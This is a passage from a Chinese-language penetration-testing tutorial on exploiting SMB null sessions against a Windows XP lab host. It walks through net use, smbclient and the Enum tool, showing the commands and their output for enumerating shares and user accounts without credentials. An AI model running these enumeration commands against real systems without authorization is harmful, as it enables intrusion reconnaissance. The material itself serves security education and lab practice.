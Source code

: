 前面的命令在没有指定用户的情况下建立到 `IPC$` 管理共享的连接； 这是可能的，因为我们的目标主机容易受到空会话攻击。 此测试仅适用于 `IPC$`。 例如，它不适用于 `C$`：

```
net use \\10.130.40.80\c$ '' /u:''
System error 5 has occurred.

Access is denied.
```

### Checking for Null Sessions with Linux（使用 Linux 检查空会话）
您还可以使用 smbclient 执行相同的检查：

```
smbclient //10.130.40.80/IPC$ -N
Domain=[ELS-WINXP] OS=[Windows 5.1] Server=[Windows 2000 LAN Manager]
smb: \> exit

smbclient //10.130.40.80/c$ -N
Domain=[ELS-WINXP] OS=[Windows 5.1] Server=[Windows 2000 LAN Manager]
tree connect failed: NT_STATUS_ACCESS_DENIED
```

## Exploiting Null Sessions（利用空会话）
可以使用 Windows NET 命令来利用空会话，但是有一些工具可以自动执行此任务。
在下面的幻灯片中，您将看到如何使用一些免费提供的 Windows 和 Linux 工具。

### Exploiting Null Sessions with Enum（使用Enum利用空会话）
其中之一是 [Enum](https://packetstormsecurity.com/search/?q=win32+enum&s=files)，这是一个命令行实用程序，可以从易受空会话攻击的系统中检索信息。
您可以通过提取它并从 Windows 命令提示符运行它来安装它。

`-S` 参数允许您枚举机器的共享：

```
enum -S 10.130.40.80
Server: 10.130.40.80
setting up session... success.
enumerating shares (pass 1)... got 5 shares, 0 left:
    eLS IPC$ WIA_RIS_SHARE ADMIN$ C$
cleaning up... success.
```

请注意，它也列举了管理共享。

`-U` 枚举用户：

```
enum -U 10.130.40.80
server: 10.130.40.80
setting up session... success.
getting user list (pass 1, index 0)... success, got 5.
  Administrator eLS Guest HelpAssistant SUPPORT_388945a0
cleaning up... success.
```
